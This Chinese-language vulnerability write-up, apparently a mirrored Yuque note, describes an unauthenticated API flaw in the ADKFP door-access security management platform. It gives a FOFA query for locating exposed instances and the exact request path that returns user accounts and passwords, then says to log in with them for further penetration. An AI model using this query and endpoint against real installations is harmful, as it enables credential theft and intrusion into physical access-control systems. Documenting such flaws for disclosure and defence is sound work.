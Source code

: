 # 费浦门禁出入口安防平台aDKManageUser存在未授权访问

# 一、漏洞简介
ADKFP门禁出入口综合安防管理平台，企业出入口系统采用两级运营管理方式，即“集中控制，分散管理”的方式实现企业管理中心和各企业合作运营的管理模式。 企业出入口系统的所有功能，都是以功能模块的形式提供。模块化的好处是能适应用户的需求，系统可任意搭配，互相配合，能够组合式适应用户需要，与用户的管理模式紧密结合。系统覆盖基础平台、身份信息平台、设备管理、门禁管理、考勤管理、访客管理、车辆门禁、电子门锁管理、移动端管理，智能办公模块包含智能迎宾、会议签到、布控抓拍、报警信息推送等多个应用子系统，所有子系统可实现信息共享，统一服务于整个企业出入口平台。 ADKFP门禁出入口综合安防管理平台存在接口未授权访问，可通过访问接口获取系统账号及密码，进而登录系统后台进行下一步渗透。

# 二、影响版本
+ ADKFP门禁出入口综合安防管理平台

# 三、资产测绘
+ fofa`body="/adkfp/getCode"`
+ 特征

![1706857311657-f58b56c0-f770-4251-a2a0-1787c92a822c.png](./img/ktohE5l624w9N9pn/1706857311657-f58b56c0-f770-4251-a2a0-1787c92a822c-140071.png)

# 四、漏洞复现
```plain
/aDKManageUser/selectCll_2?roleId=2&page=1&limit=10
```

![1706857390853-836d88a9-ebf3-4edb-8182-9f83e003069d.png](./img/ktohE5l624w9N9pn/1706857390853-836d88a9-ebf3-4edb-8182-9f83e003069d-704744.png)

使用泄漏的账号密码登陆系统

![1706857658157-491df212-b97a-4a02-bfe1-32ff502f5d00.png](./img/ktohE5l624w9N9pn/1706857658157-491df212-b97a-4a02-bfe1-32ff502f5d00-287209.png)



> 更新: 2024-02-29 23:57:11  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/ox6ro65l6vgz2hl5>